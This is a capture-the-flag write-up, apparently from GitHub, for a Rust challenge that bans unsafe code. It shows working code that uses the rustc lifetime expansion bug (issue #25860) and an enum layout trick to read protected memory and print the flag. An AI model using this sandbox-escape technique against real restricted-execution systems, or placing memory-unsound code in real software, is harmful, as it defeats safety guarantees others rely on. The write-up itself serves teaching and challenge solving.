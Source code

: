 In this task much of Rust is banned: pretty much everything you get are the default types and basic assignment and calls. In Rust, you can't dereference a pointer without unsafe code, but you can't use unsafe code without a code block, so that's off limits.

Now, it should be quite obvious (especially with the description given) that you are supposed to use a bug in the compiler. As of writing this writeup, I'm aware of one such bug: the ancient lifetime expansion bug, [issue #25860](https://github.com/rust-lang/rust/issues/25860). You can find good implementation of it [here](https://github.com/Speykious/cve-rs/blob/main/src/lifetime_expansion.rs). The bug itself can be quite easily found by googling stuff about rustlang bugs.

As I haven't looked into other rustc bugs much, the task must be solvable in other ways, please tell me about your way if you found one!

The basic logic of the exploit is this:
```Rust
fn lifetime_translator<'a, 'b, T>(_: &'b &'a (), val: &'a T) -> &'b T {
    val
}

// this is the bug: the seemingly sound function above can be coerced into a function that converts an arbitrary lifetime into 'static.
let lifetime_expander: fn(&'static &(), &String) -> &'static String = lifetime_translator;

enum Converter {
    A(*const u8, u64), // if you look into the source (accessible directly from the docs!) you can find that the layout of String is actually this (ptr, len, ...) tuple, basically.
    B(String)
}

let mut conv = Converter::B(String::new());

let Converter::B(str_ref) = &conv else {
    unreachable!();
};

let str_ref = lifetime_expander(&&(), str_ref);

// not guaranteed to work, but in reality will usually just change the same memory as the str_ref is pointing to
conv = Converter::A(flag, 64);

println!("{}", str_ref);
```

Now you just need to make it fit the restrictions. This is done by using a closure, Result from the prelude and other tricks:
```Rust
let lifetime_translator: for<'a, 'b> fn(_: &'b &'a (), val: &'a String) -> &'b String = |_, x| x;
let lifetime_expander: fn(&'static &(), &String) -> &'static String = lifetime_translator;

let mut conv = Ok(0.to_string());

let str_ref = conv.as_ref().unwrap();

let str_ref = lifetime_expander(&&(), str_ref);

conv = Err((flag, 64u64));

conv.expect(str_ref);
```